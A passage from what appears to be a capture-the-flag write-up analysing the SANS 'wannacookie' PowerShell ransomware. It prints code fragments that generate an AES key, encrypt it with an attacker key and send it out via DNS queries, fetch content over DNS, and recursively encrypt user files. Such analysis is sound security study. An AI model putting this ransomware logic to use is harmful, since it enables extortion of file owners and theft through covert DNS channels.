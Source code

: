 
So, let's dig deeper into `wanc`: we have some variable declarations first:

```
$p_k = [System.Convert]::FromBase64String($(g_o_dns ("7365727665722E637274")));
$b_k = ([System.Text.Encoding]::Unicode.GetBytes($(([char[]]([char]01..[char]255) + ([char[]]([char]01..[char]255)) + 0..9 | sort { Get-Random })[0..15] -join '')) | Where-Object { $_ -ne 0x00 });
$h_k = $(B2H $b_k);
$k_h = $(sh1 $h_k);
```

 - The `$p_k` var is created from a downladed dns string. 
 - The hex string used to call the function (`7365727665722E637274`) corresponds to `server.crt` so it's probably the attacker's public key
 - `$b_k` is a byte array created randomly, probably used for AES encryption
 - `$h_k` is the hex string that corresponds to `$b_k`
 - `$k_h` is the SHA1 hash of the hex string

Then we have two more variables built through function calls:

```
$p_k_e_k = (p_k_e $b_k $p_k).ToString();
$c_id = (snd_k $p_k_e_k);
``` 

The `p_k_e` function uses the attacker public key to encrypt `$b_k` and `snd_k` sends the resulting string as a dns query and returns an id.
The dns domain used by `snd_k` is `6B6579666F72626F746964` and converts to `keyforbotid`


Then the malware starts doing his nasty things:

``` 
[array]$f_c = $(Get-ChildItem *.elfdb -Exclude *.wannacookie -Path $($($env:userprofile + '\Desktop'),$($env:userprofile + '\Documents'),$($env:userprofile + '\Videos'),$($env:userprofile + '\Pictures'),$($env:userprofile + '\Music')) -Recurse | Where-Object { !$_.PSIsContainer } | ForEach-Object { $_.FullName });
    
e_n_d $b_k $f_c $true;
``` 

`$f_c` will contain the files to encrypt (*note*: there's another layer of protection from SANS, it only targets files with .elfdb extension) and `e_n_d` will encrypt all of them.

Now, the malware uses `$b_k` as AES encryption key so we just need to get its size to search the memory dump, easy?

**No**. Unfortunately after `e_n_d` the AES key is removed from memory:

```
Clear-Variable -Name "h_k";
Clear-Variable -Name "b_k";
```

After that, we have the web page portion of the malware:

```
$lurl = 'http://127.0.0.1:8080/';
$html_c = @{ 'GET /' = $(g_o_dns (A2H "source.min.html"));
    'GET /close' = '<p>Bye!</p>' };
    Start-Job -ScriptBlock { param($url);
[cut]
```
**Important**: notice that even the web page is downloaded through DNS.
